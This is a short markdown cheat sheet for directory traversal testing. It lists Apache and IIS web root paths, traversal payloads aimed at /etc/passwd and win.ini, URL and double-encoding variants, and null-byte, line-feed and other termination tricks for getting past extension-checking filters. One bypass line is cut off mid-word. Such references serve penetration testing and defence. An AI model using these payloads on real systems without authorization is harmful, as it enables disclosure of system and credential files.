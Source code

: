 # Directory Traversal
## Common Directories
- Apache 
	- `/var/www`
	- `/var/www/images`
	- `/var/www/static`
- IIS
	- `C:\inetpub\wwwroot`

## Quick Checks
- `./<PATH>`
- `/etc/passwd` `/windows/win.ini`
- `.\/<PATH>`
- `.//<PATH>`
- `.\\<PATH>`
- `....//<PATH>`
- `....\/<PATH>`
### Encodings
**Worth trying to double-encode as well**
**Note you can either encode the entire URL code, or just the letters**
- `.` -> `%2e`
- `/` ->`%2f`
- `\` -> `%5c`
### Bypass
**Useful for bypassing regex enforcing extensions**
- Null byte termination - `%00`
- Line feed termination - `\n` `%0a`
- Carriage return termination - `\r` `%0d`
- Carriage return Line feed termination - `\r\n` `%0d0a`
- Space termination - ` ` `%20` `+`
- Comment t

## System Info / POC
- Unix
	- `../[../]*/etc/passwd`
- Windows
	- `..\[..\]*\windows\win.ini`